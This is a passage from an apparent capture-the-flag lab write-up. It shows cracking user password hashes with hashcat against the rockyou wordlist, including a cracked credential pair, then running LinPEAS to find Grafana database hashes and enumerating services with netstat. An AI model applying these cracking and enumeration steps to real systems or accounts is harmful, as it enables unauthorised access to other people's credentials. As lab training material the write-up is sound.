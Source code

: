 ![/assets/images/Pasted%20image%2020250131021020.png]

---

## Cracking the User Hash

We found a new user: **Shawking**. Let's copy the hash and try to crack it.

```bash
hashcat -m 400 shaw-hash.txt /usr/share/wordlists/rockyou.txt
```

The hash is cracked:

```
shawking:quantumphysics
```

![/assets/images/Pasted%20image%2020250131031749.png]

We got the user flag!

---

## Using LinPEAS

Next, let's run **LinPEAS** to check for further vulnerabilities. We found a **Grafana DB** with some hashes.

![/assets/images/Pasted%20image%2020250131023937.png]

![/assets/images/Pasted%20image%2020250131024852.png]

---

## Cracking Another Hash

We found another hash to crack:

```bash
hashcat -m 10900 developer-hash.txt /usr/share/wordlists/rockyou.txt
```

![/assets/images/Pasted%20image%2020250131025319.png]

---

## Checking Services

Let's check what services are running on the victim machine:

```bash
netstat -tulpn
```
